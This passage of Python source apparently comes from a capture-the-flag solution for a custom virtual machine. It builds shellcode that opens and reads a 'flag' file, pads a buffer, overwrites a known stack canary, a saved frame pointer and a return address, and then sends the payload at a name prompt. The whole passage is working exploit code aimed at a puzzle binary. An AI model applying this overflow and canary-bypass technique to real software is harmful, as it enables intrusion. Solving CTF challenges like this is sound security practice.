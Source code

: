```python
    12 10 50 3d 3f  | mov r1, 0xf5fd0
    12 00 01 00 00  | mov r0, 0x1
    20 00           | syscall
    '''
    payload += b'\x12\x10\x50\x3d\x3f'
    payload += b'\x12\x00\x01\x00\x00'
    payload += b'\x20\x00'
    # read(2, bp, 0x28)
    '''
    12 30 28 00 00  | mov r3, 0x28
    10 2b           | mov r2, bp
    12 10 02 00 00  | mov r1, 2
    12 00 03 00 00  | mov r0, 0x3
    20 00           | syscall
    '''
    payload += b'\x12\x30\x28\x00\x00'
    payload += b'\x10\x2b'
    payload += b'\x12\x10\x02\x00\x00'
    payload += b'\x12\x00\x03\x00\x00'
    payload += b'\x20\x00'
    # write(1, bp, 0x28)
    '''
    12 30 28 00 00  | mov r3, 0x28
    10 2b           | mov r2, bp
    12 10 01 00 00  | mov r1, 1
    12 00 02 00 00  | mov r0, 0x2
    20 00           | syscall
    '''
    payload += b'\x12\x30\x28\x00\x00'
    payload += b'\x10\x2b'
    payload += b'\x12\x10\x01\x00\x00'
    payload += b'\x12\x00\x02\x00\x00'
    payload += b'\x20\x00'

    payload += b'flag'
    payload = payload.ljust(0x39, b'\x00')

    payload += encode_seven(0x12345)  # canary 0x12345

    payload += encode_seven(0xf4000)  # SFP
    payload += encode_seven(0xf5f9e)
    
    p.sendafter(b'name>', payload)
    p.interactive()

```